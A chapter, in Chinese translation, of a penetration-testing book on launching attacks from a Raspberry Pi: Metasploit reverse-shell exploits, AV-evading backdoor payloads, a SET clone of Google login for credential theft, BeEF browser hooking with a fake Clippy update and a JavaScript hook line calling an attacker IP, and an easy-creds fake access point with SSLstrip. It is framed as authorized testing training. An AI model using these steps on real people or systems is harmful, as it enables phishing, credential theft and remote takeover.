# 第四章。树莓派攻击

在前几章中，我们学习了如何为渗透测试设置树莓派。步骤包括安装 Kali Linux，建立对目标网络的访问，并执行基本的侦察。在本章中，我们将专注于在树莓派在网络上确立立足点后攻击目标。主题包括妥协系统，设置社会工程攻击，利用互联网浏览器，并使用 Kali Linux 中可用的工具开发流氓访问。将涵盖的一些工具预装在 Kali Linux ARM 映像上；但是，我们建议您使用`apt-get`命令下载最新版本并定期更新它们。

在本章中，我们将涵盖以下主题：

+   攻击目标

+   Metasploit

+   社会工程

+   社会工程师工具包

+   使用 BeEF 进行网络钓鱼

+   Rogue access honeypots

+   Easy-creds

### 提示

由于树莓派的尺寸和处理能力有限，因此强烈建议您在使用树莓派进行实时渗透测试之前在实验室中测试以下技术。

# 攻击目标

利用系统意味着利用系统中的错误、故障或漏洞，并导致系统的意外行为。通常，意外行为是允许攻击者访问系统或通过拒绝服务技术进行攻击。关于坐落在目标网络上的树莓派，目标是利用树莓派作为内部人员，用于攻击本地系统。这样，除非周界防御具有对相同网络段的可见性，否则它们将无法检测到攻击，使用行为分析或由 IPS/IDS 监视的**交换机端口分析器**（SPAN）镜像。我们发现许多管理员将最佳安全防御措施放在网络边缘，使他们对主机之间的通信视而不见。这是在这样的网络上放置树莓派并使用来自世界各地的远程连接控制它的理想情况。您将在本章的许多部分看到这种攻击模型的图表。

Kali Linux 的完整安装有大量可用于利用系统的应用程序；但是，其中许多工具未预装在 Kali Linux ARM 映像上。您可以使用`apt-get`命令安装大多数缺失的工具，但有些工具可能无法正常运行，或者会通过消耗过多的处理能力使树莓派无法使用。因此，我们设计了本章围绕树莓派定制的非常具体的攻击。

让我们从使用最流行的利用框架 Metasploit 构建攻击开始。

# Metasploit

Metasploit 项目被许多人视为针对目标机器执行利用代码的事实标准。Metasploit 框架包含各种平台的数百个可用利用。攻击者可以在利用模块中包含有效载荷、编码器和**无操作**（NOP）幻灯片生成器，以解决几乎任何与利用相关的攻击。Metasploit 流行的关键在于它将复杂的攻击武器化为脚本格式，以便普通用户可以在几分钟内发动复杂的攻击。您可以在[www.metasploit.com](http://www.metasploit.com)了解更多关于 Metasploit 的信息。

Metasploit 框架有许多不同的工具可用于利用系统。可用的工具如下：

+   **Msfcli**：这是一个命令行界面，允许用户通过脚本启动利用或攻击的框架。

+   **Msfconsole**：这是访问 Metasploit 最流行的方式。Msfconsole 通过一系列上下文驱动的命令提示符提供对整个框架的访问。

+   **漏洞利用**：漏洞利用将危害受害者机器，它们可以分为主动和被动漏洞利用。主动漏洞利用一直运行，直到获得 shell 访问或者因为某种异常错误而停止利用。在下面的屏幕截图中，我们展示了一个主动漏洞利用，因为攻击者执行攻击，直到他们通过 shell 访问受害者的机器：

另一方面，被动漏洞利用会等待受害者机器连接到 Metasploit，然后 Metasploit 运行攻击。主动和被动漏洞利用的区别在于，Metasploit 在主动利用中会发起连接，而在被动攻击中会等待受害者。

+   **载荷**：Metasploit 允许攻击者使用单级和多级作为载荷。这些的描述以及何时使用它们可能会变得复杂，超出了基于 Raspberry Pi 的书籍的范围。我们建议您在本节末尾引用的 Metasploit Unleashed 主页上寻找更多信息。

+   **数据库**：Metasploit 内置支持 PostgreSQL 数据库系统。这个数据库系统允许攻击者跟踪主机、网络和漏洞。在 Metasploit 中使用内置数据库的主要目的之一是跟踪您发现的内容，并帮助记录未来的攻击和报告。

+   **Meterpreter**：这是 Metasploit 中最强大的资源之一。它在内存载荷方面是动态的。根据被攻击的系统、漏洞的性质以及运行方式，Meterpreter 可以为攻击者提供完整的 shell 功能和对受害者机器的远程控制。

### 提示

有许多优秀的书籍和资源可供学习 Metasploit。一个建议是免费的 Offensive Security Metasploit Unleashed 介绍，网址为[`www.offensive-security.com/metasploit-unleashed/Main_Page`](http://www.offensive-security.com/metasploit-unleashed/Main_Page)。

关于 Raspberry Pi，当从 Kali Linux ARM 映像运行时，一些 Metasploit 模块无法正常运行。因此，我们建议您只发起非常具体的攻击。在我们的例子中，我们将假设 Raspberry Pi 可以访问内部网络，并且您想要识别一个目标进行入侵。攻击本地系统的步骤如下：

1.  使用 Nmap 扫描网络来识别目标。

1.  使用 Nmap 扫描目标，寻找可能的漏洞。

1.  在 Metasploit 中搜索与 Nmap 扫描期间识别的漏洞相匹配的攻击。

1.  对漏洞发起攻击。

如果成功的话，您将获得对系统的访问权限。

以下图表表示这种攻击在目标网络上的样子：

让我们通过使用 Metasploit 来危害本地网络上的系统。

要启动 Metasploit，从命令行窗口输入`msfconsole`命令。在 Raspberry Pi 上启动 Metasploit 可能需要几分钟的时间。

以下屏幕截图显示了在 Raspberry Pi 上启动 Metasploit：



一旦您在 Metasploit 中使用`msfconsole`，您将看到一个新的命令提示符。让我们针对一个目标使用一个漏洞。在这个例子中，我们将演示一个 Java 漏洞。为了实现这一点，输入`use exploit/multi/browser/java_jre17_ exec`命令。

以下屏幕截图显示了上述命令的启动：

这将把您的提示更改为`msf exploit`。接下来，我们将使用 Metasploit 交付一个生成反向 shell 的有效载荷。**反向 shell**是攻击者从其 PC 本地访问的命令提示符，用于攻击远程受害者目标系统时运行命令。我们将使用`set PAYLOAD java/shell/reverse_tcp`命令设置有效载荷。您将看到**PAYLOAD =>** shell 与您的设置，这将确认它已被接受。

为了使攻击生效，攻击者必须在有效载荷中设置选项。您可以通过输入`show options`命令查看可用选项。一些选项是必需的，而其他选项则取决于您在使用`show options`命令时标记它们的方式。这个特定的有效载荷只需要一个选项，即`LHOST`选项。`LHOST`是攻击者的本地 IP 地址。这告诉 Metasploit，当有效载荷传递给受害者时，受害者将如何连接回攻击者。您需要确保攻击者机器的 IP 地址（`LHOST`）可以被受害者机器访问，以便在成功执行此攻击后建立连接。

要配置`LHOST`选项，请输入`set LHOST Kali 的 IP 地址`，其中 Kali 的地址是托管 Kali Linux 的树莓派的 IP 地址。您可以使用`show options`命令验证更改，并查看`LHOST`名称现在是否有一个值。以下屏幕截图显示了`LHOST`名称设置为`192.168.1.10`：

输入`exploit`命令以执行带有您选项的有效载荷。

如果您的受害者正在运行一个可利用的 Java 版本，您将获得对受害者机器的反向 shell。要测试该漏洞，转到受害者机器，打开一个 Web 浏览器，并浏览托管 Kali Linux 的机器。对于我们的示例，这将是`192.168.1.10`。

通常，受害者不会自愿浏览攻击者的机器；然而，这是在实验室环境中测试您的漏洞是否有效的好方法。真实世界的攻击者会在精心制作的网页中放置一个链接，比如在一个看似无害的网页中隐藏的 iFrame 中。还有许多其他攻击可以利用远程漏洞，以便攻击者也可以启动有效载荷。

一旦受害者浏览攻击者运行漏洞的机器，有效载荷将被加载，受害者将被利用，使攻击者可以访问受害者机器的 shell（命令行）。

### 提示

您可以通过在测试受害者机器上安装一个旧版本的 Java 来测试此攻击。Java 1.0.7_6 是一个可能用于测试的选项。您可以在 Oracle 的网站上找到 Java 的旧版本，网址为[`www.oracle.com/technetwork/java/archive-139210.html`](http://www.oracle.com/technetwork/java/archive-139210.html)。

## 使用 Metasploit 创建自己的有效载荷

使用 Metasploit 的另一种流行方式是创建恶意有效载荷。在计算术语中，有效载荷意味着数据传输。当我们提到恶意有效载荷时，我们指的是向数据传输中添加受害者不希望的内容，比如后门。Metasploit 提供了大量有效载荷选项，可以在安装后为系统提供根访问权限。

大多数安全解决方案，如防病毒软件或 IPS，都是设计用于检测有效载荷。然而，Metasploit 包括编码器来绕过这些传统的防御措施。编码意味着向文件添加随机数据，使其看起来与实际情况不同。大多数传统安全防御利用已知威胁的列表，也称为签名，这意味着如果威胁不在该列表上，它就不会被检测到。编码提供了一种使有效载荷看起来足够独特，以免触发已知签名并击败传统防御措施的方法。有些人称之为“零日”威胁，这意味着商业供应商都没有该威胁的签名来检测它。

对于下一次攻击，我们将创建一个载荷，对其进行编码，以便绕过传统的安全防御，并将其放在目标系统上。载荷可以通过电子邮件或 USB 传递，或者如果利用足够成功以获得基本系统访问权限，则可以将载荷放置在目标系统上，以提升攻击者在该系统上的访问权限级别。

### 提示

最佳实践是在更强大的系统中创建载荷，并通过树莓派传输它们，而不是直接在树莓派中创建它们。

让我们看看如何开发一个载荷并用 Metasploit 对其进行编码。

第一步是打开 Metasploit 并在命令终端中输入`msfconsole`。大约一分钟后，您将看到 Metasploit 的介绍页面。

您可以通过访问`msfpayload`子部分来生成载荷。可以使用`msfpayload –h`命令查看可用格式和`msfpayload –l`命令查看实际载荷选项。对于我们的示例，我们选择了最流行的漏洞之一，称为`reverse_tcp`载荷，用于利用 Windows 系统。以下截图演示了选择此载荷并配置监听地址，即我们系统的 IP 地址以监听端口`4444`：



Metasploit 可以为攻击生成不同的文件格式。在我们的示例中，我们将创建一个名为`important.exe`的可执行文件，以便受害者相信它是一个重要的更新。请注意，这就是社会工程学发挥作用的地方，这意味着您可以将这个可执行文件命名为用户期望安装的内容，并将其包含在社会工程活动中。要创建`important.exe`文件，请在原始载荷之后使用`X > important.exe`命令。以下截图显示了创建此文件的过程：

创建文件后，您可以在`root`文件夹中找到该文件。困难的部分是想出一个巧妙的方法来让受害者安装该文件。如果您能说服 Windows 用户安装它，假设一切都按预期运行，您将被授予对该系统的具有 root 权限的后门。这个概念对本章后面介绍的其他攻击示例可能会有用。以下截图显示了我们在目标计算机上的`important.exe`文件：



## 包装载荷

隐藏载荷的另一种方法是将其与受信任的应用程序进行包装。例如，您可以告诉受害者他们的 Adobe Reader 已过期，并将正确的升级文件与后门进行包装。当受害者安装`.exe`文件时，他们将获得更新和一个不需要的后门。

这可以是一个非常有效的方式来补充有针对性的社会工程攻击。我们将在本章后面的*使用 BeEF 进行网络钓鱼*部分中提到这种方法，那里我们将有一个弹出窗口，会欺骗用户点击并下载一个包装的载荷。

包装载荷超出了树莓派渗透测试书的范围。有一些工具可用，比如 Senna，专门用于此目的。以下截图显示了**Senna Spy One**仪表板将**ROOTKIT**载荷与 Windows 计算器可执行文件进行包装。当用户运行该文件时，计算器将弹出，**ROOTKIT**载荷将被安装。您可以通过研究 Senna 或其他包装工具来了解更多关于包装载荷的信息。

# 社会工程学

社会工程攻击旨在通过误导或欺骗诱使受害者提供信息。攻击者经常假装成他们不是的人，比如有权威的人或家庭成员，以获取受害者的信任。当他们成功时，用户可能已经泄露了密码、访问凭据或其他有价值的秘密。有关著名黑客的故事，他们仅凭微笑就能获得知识产权。

Kali Linux 中有许多工具可用于辅助社会工程活动；然而，最成功的攻击是基于了解目标受众并滥用他们的信任。例如，我们曾在社交媒体来源如 LinkedIn 和 Facebook 上使用假账户获取敏感信息，这并不需要任何高级技术来实现我们大部分的目标。其他例子包括假装成管理员给某人打电话，或发送声称是久违的家庭成员的电子邮件。

### 注意

您可以通过在 Google 上搜索"Emily Williams Social Engineering"或访问[`www.thesecurityblogger.com/?p=1903`](http://www.thesecurityblogger.com/?p=1903)和[`www.pcworld.com/article/2059940/fake-social-media-id-duped-securityaware-it-guys.html`](http://www.pcworld.com/article/2059940/fake-social-media-id-duped-securityaware-it-guys.html)了解更多关于作者在使用社交媒体进行渗透测试的研究。

在本章中，我们将重点介绍一种名为 SET 的最受欢迎的社会工程攻击工具。SET 可以从树莓派上启动，但在更强大的系统上可能会更好地运行。最佳实践是利用树莓派进行现场侦察，以构建成功的社会工程攻击，并从远程 Web 服务器执行。

我们将在 SET 的讨论之后介绍另一个流行的社会工程工具，用于利用浏览器。这就是 BeEF。

## 社会工程工具包

社会工程工具包（SET）是由 TrustSec 的 David Kennedy 开发的，并预装在 Kali Linux 中。它经常用于复制受信任的网站，如 Google、Facebook 和 Twitter，目的是吸引受害者对它们发动攻击。当受害者无意中浏览这些复制的网站时，攻击者可以收集受害者的密码，或者可能注入一个命令 shell，从而完全访问受害者的系统。这是一个很好的工具，可以让安全专业人员演示信任链作为一个漏洞，意味着演示普通人只要来源看起来合法，就不会注意到他们输入敏感信息的位置。

你可以从树莓派上运行 SET；然而，受害者的互联网速度体验将受到树莓派提供的吞吐量的限制。我们在测试中发现，受害者有时在被重定向到真实网站之前经历了长时间的延迟，这使他们意识到可能受到攻击。因此，我们建议在使用树莓派时，将 SET 攻击目标定位到特定用户，而不是空白的受众，以保持性能良好。

在以下示例中，我们将设置一个树莓派来克隆 Gmail。如下图所示，目标是让受害者相信他们正在访问他们的 Gmail 账户，并在他们登录后将他们重定向到真正的 Gmail 网站，但存储他们的登录凭据。诀窍在于让受害者访问 SET 服务器；然而，这就是你的社会工程能力发挥作用的地方。例如，你可以通过电子邮件发送链接，将链接发布在社交媒体来源上，或者毒害 DNS 以将流量引导到你的攻击服务器。攻击者可以远程访问树莓派，以获取被盗的凭据，用于最终的渗透测试报告。



让我们看看如何在树莓派上使用 SET。

要启动 SET，在命令提示符窗口中键入`setoolkit`。您将被提示启用**最新功能仓库**。最新功能仓库是 Kali 中的一个新功能，其中包括流行工具的每日构建，如 SET。最佳做法是在使用实时渗透测试之前启用最新功能仓库并测试您的练习，因为事情可能会略有变化。以下截图显示了如何启用**最新功能仓库**：

### 提示

最新功能仓库是获取流行工具的最新软件包的好方法。然而，经验丰富的安全专业人员会发现这些工具经常发生变化，某些功能可能无法再使用。最佳做法是在实时使用工具之前禁用更新，除非您有时间测试新版本的更新。

启动 SET 后，您需要输入**yes**同意软件许可和条款。此时，您将看到 SET 的主菜单，如下截图所示：

SET 是一个基于菜单的攻击工具。与其他工具不同，它不使用命令行。这是基于社会工程攻击是多态的性质，并且需要多个线性步骤来设置的概念。命令行工具在开发这些类型的攻击时可能会引起混乱。

在此示例中，我们将选择**1) 社会工程攻击**。

以下截图显示了**社会工程攻击**菜单下的菜单：



接下来，我们将选择**2) 网站攻击向量**。这将带来各种不同的选项。在这个测试场景中，我们将执行一个简单的凭证窃取攻击，即**3) 凭证窃取攻击方法**，如下截图所示：

当您选择**凭证窃取攻击方法**选项时，您可以选择使用预先存在的模板或克隆网站。我们发现大多数模板对普通人来说效果不佳，因此最好克隆一个真实的网站。此外，网站经常发生变化，因此克隆网站将为您提供受害者预期看到的最新版本。

当您选择适当的选项时，您将被提示输入 SET 应监听的接口的 IP 地址。如果您有多个接口，您应该输入面向互联网的接口的 IP 地址，否则受害者可能无法访问您的树莓派攻击服务器。

如果您在“凭证窃取攻击方法”下选择了**2) 网站克隆器**，您将需要输入要克隆的网站的完整 URL，例如[`www.facebook.com`](https://www.facebook.com)。如果您选择网站模板，您将从提供的列表中选择一个现有模板。以下截图显示了一些可用模板的示例。请注意，这些模板非常基本且过时，这意味着它们可能看起来不像真实的东西。这就是为什么在进行真正的渗透测试时，您应该克隆一个网站。



以下截图中的菜单提供了几种类型的攻击。我们建议您测试每种攻击，并根据个人偏好和成功率进行选择。其中一些攻击需要进行中间人设置，这在第三章*渗透测试*的*中间人攻击*部分中已经讨论过。

在我们的示例中，我们将选择**3)凭据窃取攻击方法**。这种攻击会托管一个假网站，等待受害者登录。当受害者看到登录页面并输入他们的登录凭据时，他们将被重定向到真实网站，同时不知不觉地让攻击者捕获他们的凭据，以便以后使用。以下示例展示了克隆的谷歌登录界面的样子：

这种攻击的困难之处在于让受害者相信他们正在访问真实的网页。这可以通过发送一封带有假链接的电子邮件，在社交媒体网站上发布链接，执行 DNS 投毒等方式来实现。SET 有许多工具和实用程序可以使这一切变得更容易，但这些超出了树莓派书籍的范围。请访问 SET 的网站[`www.trustedsec.com/social-engineer-toolkit/`](https://www.trustedsec.com/social-engineer-toolkit/)，了解更多关于这些工具的信息。

### 提示

最佳实践是从远程服务器而不是树莓派上启动 SET 攻击，因为执行这些类型的攻击需要的进程要求。从用户的角度来看，如果攻击是在树莓派上本地托管的，或者是从外部系统上托管的，攻击看起来是一样的，因为我们的示例是克隆一个云服务。

# 使用 BeEF 进行网络钓鱼

**浏览器利用框架**（**BeEF**）是另一个经常被归类为利用渗透测试、蜜罐和社会工程的工具。BeEF 用于托管一个恶意的 Web 服务器，就像 SET 一样。然而，BeEF 利用了互联网浏览器中发现的弱点进行攻击。当受害者连接到 BeEF 服务器时，BeEF 将钩住系统，并检查受害者的网络浏览器对各种攻击的易受性。根据这些发现，BeEF 将提供一系列可以启动的命令模块，比如截屏或触发蜂鸣声。被钩住的系统只能在在线时访问。然而，一旦被钩住，BeEF 可以跟踪系统何时建立互联网连接，以继续对该系统发动攻击。您可以在[`beefproject.com/`](http://beefproject.com/)找到更多关于 BeEF 的信息。

### 提示

作者们使用 BeEF 进行授权渗透测试，因为它不需要修改终端系统就能成功。这意味着在渗透测试后，客户的风险较小，清理工作也较少。

对于这种用例，我们将执行一个类似于我们在 SET 中进行的攻击；然而，这次攻击将针对受害者的浏览器而不是欺骗他们登录网站。这意味着我们将再次需要克隆一个已知的网站或开发一个模板，使受害者不意识到他们正在受到攻击。使用 BeEF 的最大好处是我们只需要让受害者访问网站一次就能钩住他们。一旦被钩住，即使他们离开网站或者下线再次上线，我们也可以攻击他们。

我们发现使用简单的社会工程学策略，比如制作一个假的节日电子卡片并在社交媒体上发布，或者通过电子邮件发送攻击服务器的链接，是让受害者访问我们的 BeEF 服务器的非常有效的方法。一个非常基本但可信的节日卡片很容易通过收集一些图片并用粗体字陈述场合来制作。

以下图表表示在内部网络上从树莓派上运行 BeEF 服务器，并且目标是钩住本地系统。为了让用户访问 BeEF 服务器，示例展示了攻击者发送一封电子邮件，其中包含一个托管在 BeEF hook 服务器上的**假节日卡片**的链接。一旦受害者点击链接，他们将看到节日卡片，并被 BeEF 钩住。攻击者可以在受害者继续使用互联网的同时，从树莓派上远程执行命令模块。



让我们一起构建这种攻击场景。

要启动 BeEF，使用`cd /usr/share/beef-xss`导航到 BeEF 目录，然后像以下截图中所示运行`beef`脚本：

一旦 BeEF 脚本运行，您可以通过打开 Web 浏览器并将其指向`http://ip_address_of_raspberry_pi_kali:3000/ui/panel`来访问基于 Web 的 BeEF 控制面板。以下截图显示了 BeEF 的主要登录页面：



您可以使用**用户名**`beef`和**密码**`beef`登录。

与其他社会工程攻击一样，您需要欺骗受害者前往一个钓鱼页面。BeEF 带有一些基本的演示钓鱼页面；但是，就像 SET 一样，这些页面相当基本，可能无法愚弄普通用户。您可以通过访问`http://ip_address_of_raspberry_pi_kali:3000/demos/butcher/index.html`来测试 BeEF，以查看一个基本的钓鱼页面。

### 提示

在现实世界中，您需要编辑演示页面，使其看起来像是可信的东西。您的用户不需要停留在页面上就会被吸引；但是，如果看起来可疑，他们可能会报告它。您还可以添加一个带有选项卡劫持技术的 JavaScript 模板。

一旦系统被钓鱼，攻击者将在控制面板中看到受害者的浏览器，并且可以发送各种不同的命令。在某些情况下，您可能能够发送给用户一个更复杂和有价值的利用。在其他情况下，您可能只能从客户端检索基本信息。可用的命令取决于受害者使用的 Web 浏览器类型以及该 Web 浏览器的安全补丁更新情况。

以下截图显示了一个已被钓鱼的基于 Linux 的系统：



模块树显示了可用于钓鱼受害者的可能利用。

### 提示

BeEF 为每个命令包括了一个风险级别，定义了命令成功运行的可能性以及引起受害者对恶意行为的警觉风险。强烈建议您在进行实时渗透测试之前，在实验室环境中针对类似于被钓鱼目标的系统测试这些利用。在我们的测试中，我们发现许多利用在实际系统上的效果并不如宣传的那样好。

在可利用的浏览器上执行命令的一个例子是发送一个 JavaScript 模板来欺骗用户点击某物。因此，对于以下示例，我们将发送老式的 Clippy 弹出窗口，要求用户升级其浏览器。我们将包含一个链接，该链接具有一个已经包含了后门应用程序的匹配浏览器安装文件。在本章的*Metasploit*部分中，已经介绍了创建有效载荷、对其进行编码以绕过安全防御以及将有效载荷与可信可执行文件包装在一起的主题。

发动这种攻击的第一步是转到 BeEF 管理控制台中的**Commands**选项卡：

然后，点击**Social Engineering**文件夹，找到**Clippy**攻击：



您会注意到**Clippy**攻击的默认设置是内置的。基本上，它将下载一个包含在内部网站上托管的**Clippy**图像文件的 JavaScript 模板。它还将下载并运行一个 EXE 文件。在以下示例中，它下载并运行了`putty.exe`。请注意，以下截图中显示的可执行代码链接比显示窗口更长。这可以是您攻击所需的任何内容。



您可以让**Clippy**在下载之前和之后显示一条消息。默认设置在下载之前显示消息**您的浏览器似乎已过时。您想升级吗？**，并在下载后显示**感谢升级您的浏览器！期待更安全、更快速的网络！**。

这种攻击是基于浏览器的。因此，与出现在早期版本的 Microsoft Word 中的原始**Clippy**不同，这种攻击不受操作系统的影响。它适用于支持 JavaScript 的任何浏览器。在下面的截图中，我们展示了在一个没有正确版本的 Microsoft Office 的 Mac OS X 计算机上的攻击：



人们经常问我们如何在没有 BeEF 附带的明显演示页面的情况下“钩住”受害者浏览器。以下 JavaScript 命令可用于任何网页来钩住浏览器：

`%20(function%20()%20{%20var%20url%20=%20%27http:%2f%2f192.168.135.129:3000%2fhook.js%27;if%20(typeof%20beef%20==%20%27undefined%27)%20{%20var%20bf%20=%20document.createElement(%27script%27);%20bf.type%20=%20%27text%2fjavascript%27;%20bf.src%20=%20url;%20document.body.appendChild(bf);}})();`

您仍然需要创造性地运行 JavaScript 命令。它可以自动运行，嵌入广告，或者其他创造性的方式。只需用您的 BeEF 服务器替换 JavaScript 命令中的 IP 地址变量。您一定已经注意到我们服务器的 IP 地址在前面的例子中是`192.168.135.129`。您需要用您的 BeEF 服务器的 IP 地址替换它。确保您的 BeEF 服务器可以被受害者机器访问，否则这种攻击将无法进行。

# 流氓接入蜜罐

在计算机术语中，蜜罐是一种旨在检测、转移或误导对计算机系统或网络进行破坏的企图的陷阱。典型的蜜罐是一台计算机、一段数据或网络段，看起来是真实网络的一部分，无论网络有多么孤立和/或受监控。大多数蜜罐都表现出自己是脆弱的，并包含一些有价值的东西，以诱使攻击者远离真正的目标。

通常有两种类型的蜜罐。更常用的是生产蜜罐，它是设计成网络防御策略的一部分。生产蜜罐通常意味着将蜜罐放置在网络内部，目的是引诱已经突破其他防御措施的黑客，这意味着生产蜜罐是防止敏感系统被破坏的最后一道防线。

另一种蜜罐的类型是监控蜜罐，通常放置在网络上以研究通过它的数据。这类似于中间人攻击，但通常蜜罐会呈现自己为受害者连接的授权来源。一个例子是开发一个虚假的接入点，受害者相信这是一个可连接到网络的可行来源。当受害者使用蜜罐时，攻击者监视流量，包括捕获登录凭据。我们称这种攻击为基于使用监视蜜罐技术并通过虚假无线接入点向蜜罐提供接入方法的流氓接入蜜罐攻击。还有其他类型的蜜罐，如高交互和低交互蜜罐，蜜客户端等。但是，大多数这些都不适合树莓派的形态。

流氓接入蜜罐，正如我们定义的那样，是树莓派蜜罐的最合适用途，因为我们的重点是捕获数据，而不是破解网络防御，同时利用树莓派的移动形态来隐藏这种攻击。

在下面的示例中，我们将创建一个伪装的接入蜜罐，它将充当一个伪装的无线接入点，旨在在受害者连接到它以访问互联网时捕获敏感信息。我们将把`eth0`端口连接到面向互联网的端口，并利用 USB 无线适配器来托管伪装的无线服务。攻击可以使用无线来修改互联网和伪装的无线接口；但是，我们需要两个 USB 无线适配器才能完成此操作。只要在发动攻击之前设置了 VPN 连接，攻击者就可以从任何地方访问树莓派蜜罐。下面的图表显示了我们将要构建的内容：

让我们看看一个名为 easy-creds 的流行实用程序，并使用它来构建一个树莓派伪装接入蜜罐。

## Easy-creds

Easy-creds 是一个利用 Ettercap 和其他工具获取凭据的 bash 脚本。Ettercap 在第三章*渗透测试*中有介绍。然而，easy-creds 通过为您提供开发监视蜜罐所需的所有工具，将中间人攻击推进了一步。Easy-creds 是菜单驱动的，并提供 ARP 欺骗、**动态主机配置协议**（**DHCP**）欺骗、单向 ARP 欺骗和创建虚假**接入点**（**AP**）。

Easy-creds 未预装在树莓派上，因此您需要从[`sourceforge.net/projects/easy-creds/files/latest/download`](http://sourceforge.net/projects/easy-creds/files/latest/download)下载它。

下载完成后，使用`cd Downloads`导航到下载目录（通常为`Downloads`），如下截图所示：



您需要通过发出`tar –zxvf easy-*`命令来解压下载的文件。这将创建一个新目录，您可以使用`ls`命令查看。使用`cd`命令打开该目录，您应该可以看到一个安装脚本。您需要使用`chmod +x installer.sh`命令或`chmod 777 installer.sh`命令将安装脚本设置为可执行文件。下面的截图显示了前面步骤的执行：



创建可执行文件后，使用`./installer.sh`命令安装 easy-creds。运行 easy-creds 安装脚本后将出现安装菜单，如下截图所示：

由于我们在 Kali Linux 上运行，我们将从菜单中选择**1. Debian/Ubuntu 和衍生产品**。

您需要按照提示完成安装。安装完成后，可以通过发出`./easy-creds.sh`命令来启动 easy-creds。下面的截图显示了安装后运行 easy-creds 的命令：

运行`.sh`文件后，您将看到 easy-creds 菜单。Easy-creds 经常在每个版本中略微更改菜单的顺序，因此您的菜单可能与以下截图不同。在我们的示例中，我们将选择**1. 先决条件和配置**进行配置。



设置我们的蜜罐的第一步是确保我们向受害者分配用于攻击的 IP 地址。为此，我们将安装 DHCP 服务器。在安装 DHCP 服务器时可能会出现错误，这意味着您可能已经从其他练习或之前安装的工具中安装了 DHCP 服务器。

配置菜单的下面截图显示了使用**3. 安装 dhcp 服务器**来安装 DHCP 服务器：



安装 DHCP 服务器后，我们将选择**添加隧道接口到 dhcp 服务器**。在上一个截图中，这是选项**5**。

接下来，滚动到配置的部分，指定 DHCP 服务器应该监听的接口。如果你的无线网络使用这个接口，你需要在这里手动输入`wlan0`，就像下面的截图中所示：



添加完无线接口后，选择返回到上一个菜单。在配置菜单截图中，这是**9. 上一个菜单**。现在，让我们使用**3. 伪造 AP 攻击**来设置 FakeAP 攻击，就像下面的截图中所示：



接下来，你将看到几个选项。对于我们的示例，我们将选择**伪造 AP 攻击静态**选项，如下面截图中所示的**1.**：



你将被提示选择是否包括 sidejacking 攻击。**Sidejacking**描述了通过使用识别受害者对特定服务器的凭据来劫持已经建立的网络会话。当人们访问我们的蜜罐并登录网站时，这可能会有用。因此，对于我们的示例，我们将选择**是**。

接下来，你将被要求选择连接到互联网的接口。在大多数情况下，这将是`eth0`，这意味着设计是让树莓派从接口`wlan0`提供伪造无线攻击，并通过`eth0`上的 LAN 连接传递流量到互联网。你也可以使用两个 USB 无线适配器来实现这一点，其中一个连接到互联网，另一个用于主机伪造无线攻击。这种方法的问题在于，受信任和伪造的无线接入点都将广播连接，除非真实的无线网络没有广播，例如使用手机的共享模式。我们将使用 LAN 连接作为示例。

选择完互联网接口后，你将被提示填写一些其他细节，比如你想保存日志文件的位置和 DHCP 地址空间。填写这些信息后，基本配置就完成了。

现在你将拥有一个主动的伪造无线蜜罐，向客户端广告自己加入。如果客户端访问网络并使用明文协议，他们的信息将被捕获并显示在 easy-creds 中。如果他们尝试打开 HTTPS 网站，easy-creds 还将尝试使用 SSLstrip 将用户重定向到未加密的网页。我们在第三章*渗透测试*中介绍了 SSLstrip。

以下截图显示了一组截图，展示了我们的蜜罐在受害者使用我们的伪造无线网络时捕获其 Facebook 登录凭据：

你的树莓派现在是一个完全功能的伪造访问蜜罐，将捕获的密码保存到你在配置过程中指定的日志文件中。你可以远程访问这个日志，用于最终的渗透测试报告。你可以在[`sourceforge.net/projects/easy-creds/`](http://sourceforge.net/projects/easy-creds/)找到更多关于 easy-creds 的信息。

# 总结

本章重点介绍了一旦你侵入网络后，如何在树莓派上运行主动攻击。主题包括使用各种形式的载荷来妥协系统、社会工程技术、利用浏览器以及开发伪造访问蜜罐，目的是通过漏洞或窃取用户凭据来获取访问权限。到目前为止，我们已经介绍了使用树莓派进行渗透测试的基础知识。还有更多的概念需要学习，但到目前为止涵盖的主题将给你一个如何使用树莓派进行授权渗透测试的一般概念。

下一章将讨论在完成渗透测试后该做什么。这包括如何清理日志文件并以安全的方式擦除您的足迹，以避免留下法证证据。我们还将介绍捕获数据的步骤，这些数据可以用来开发专业的渗透测试成果展示您的服务的价值。
